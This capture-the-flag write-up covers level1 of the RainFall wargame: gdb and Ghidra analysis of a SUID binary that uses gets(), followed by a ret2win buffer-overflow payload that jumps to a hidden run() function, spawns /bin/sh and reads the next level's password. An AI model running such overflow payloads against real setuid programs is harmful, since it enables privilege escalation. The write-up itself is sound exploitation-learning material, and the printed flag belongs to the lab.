 We can see that the program simply uses the function gets() to take user input :

```
(gdb) disass main
Dump of assembler code for function main:
   0x08048480 <+0>:	push   %ebp
   0x08048481 <+1>:	mov    %esp,%ebp
   0x08048483 <+3>:	and    $0xfffffff0,%esp
   0x08048486 <+6>:	sub    $0x50,%esp
   0x08048489 <+9>:	lea    0x10(%esp),%eax
   0x0804848d <+13>:	mov    %eax,(%esp)
   0x08048490 <+16>:	call   0x8048340 <gets@plt>
   0x08048495 <+21>:	leave  
   0x08048496 <+22>:	ret    
End of assembler dump.
```

By examining the man of the gets() function, it becomes evident that the function is deprecated and poses a security vulnerability:

```
Never use gets(). Because it is impossible to tell without knowing the data in advance how many characters gets() will read, and because gets() will continue to store characters past the end of the buffer, it is extremely dangerous to use. 
```

The program has the SUID bit set, and a buffer overflow is possible due to the use of gets().
I chose to use Ghidra, so I exported the program using scp :

```
scp -P 4242 level1@127.0.0.1:/home/user/level1/level1 .
```

We see the decompiled version of the main :

```C
void main(void)

{
  char local_50 [76];
  
  gets(local_50);
  return;
}
```

If we write more than the buffer's allocated space, the program triggers a segfault :

```shell
level1@RainFall:~$ python -c "print('A' * 80)" | ./level1
Segmentation fault (core dumped)
```

Another interesting function is visible in the program:

```shell
                             undefined run()
             undefined         AL:1           <RETURN>
             undefined4        Stack[-0x10]:4 local_10                                XREF[1]:     08048456(W)  
             undefined4        Stack[-0x14]:4 local_14                                XREF[1]:     0804845a(W)  
             undefined4        Stack[-0x18]:4 local_18                                XREF[1]:     08048462(W)  
             undefined4        Stack[-0x1c]:4 local_1c                                XREF[2]:     0804846a(*), 
                                                                                                   08048472(*)  
                             run                                             XREF[3]:     Entry Point(*), 080485a0, 
                                                                                          0804860c(*)  
        08048444 55              PUSH       EBP
        08048445 89 e5           MOV        EBP,ESP
        08048447 83 ec 18        SUB        ESP,0x18
        0804844a a1 c0 97        MOV        EAX,[stdout]
                 04 08
        0804844f 89 c2           MOV        EDX,EAX
        08048451 b8 70 85        MOV        EAX,s_Good..._Wait_what?_08048570                = "Good... Wait what?\n"
                 04 08
        08048456 89 54 24 0c     MOV        dword ptr [ESP + local_10],EDX
        0804845a c7 44 24        MOV        dword ptr [ESP + local_14],0x13
                 08 13 00 
                 00 00
        08048462 c7 44 24        MOV        dword ptr [ESP + local_18],0x1
                 04 01 00 
                 00 00
        0804846a 89 04 24        MOV        dword ptr [ESP]=>local_1c,EAX=>s_Good..._Wait_   = "Good... Wait what?\n"
        0804846d e8 de fe        CALL       <EXTERNAL>::fwrite                               size_t fwrite(void * __ptr, size
                 ff ff
        08048472 c7 04 24        MOV        dword ptr [ESP]=>local_1c,s_/bin/sh_08048584     = "/bin/sh"
                 84 85 04 08
        08048479 e8 e2 fe        CALL       <EXTERNAL>::system                               int system(char * __command)
                 ff ff
        0804847e c9              LEAVE
        0804847f c3              RET
```

The decompiler give us this :

```C
void run(void)

{
  fwrite("Good... Wait what?\n",1,0x13,stdout);
  system("/bin/sh");
  return;
}
```

This function is present in the program but never called by the main. However we can use a buffer overflow to manipulate the program's execution flow and make it jump to this function.

The entry point seems to be at: `08048444 55 PUSH EBP``

If we write the adress in little endian after the initial 76 characters :

```shell
level1@RainFall:~$ python -c "print('A' * 76 + '\x44\x84\x04\x08')" | ./level1
Good... Wait what?
Segmentation fault (core dumped)
```

Although we see the call to fwrite, the program stops without staying within /bin/sh. To overcome this, we can append a cat command to redirect the standard outputs towards the program's /bin/sh:

```shell
level1@RainFall:~$ (python -c "print('A' * 76 + '\x44\x84\x04\x08')" && cat) | ./level1
Good... Wait what?
whoami
level2
cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```

And we get the flag !
